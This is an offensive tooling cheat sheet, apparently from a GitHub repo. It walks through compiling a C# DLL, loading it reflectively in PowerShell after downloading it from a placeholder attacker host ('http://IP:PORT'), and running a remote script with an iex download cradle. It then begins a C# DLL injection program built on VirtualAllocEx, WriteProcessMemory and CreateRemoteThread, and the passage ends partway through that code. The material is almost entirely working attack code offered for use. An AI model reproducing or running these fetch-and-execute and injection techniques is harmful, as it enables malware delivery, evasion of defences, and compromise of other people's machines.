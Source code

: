 ### Build your DLL

```
sudo csc /target:library /out:runner.dll runner.cs 
```
<br>

### Create Powershell Script to load the dll

```powershell
$data = (new-object net.webclient).downloadData('http://IP:PORT/runner.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0,$null)
```
<br>

## Host on your server
```
Host your dll file
Host your powershell script
```
<br>

### Bring it Home
```
iex(new-object net.webclient).downloadstring('http://IP:80/runner.ps1')
```
<br>
<br>

## DLL_Injection

```csharp
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;

namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true,
SetLastError = true)]
```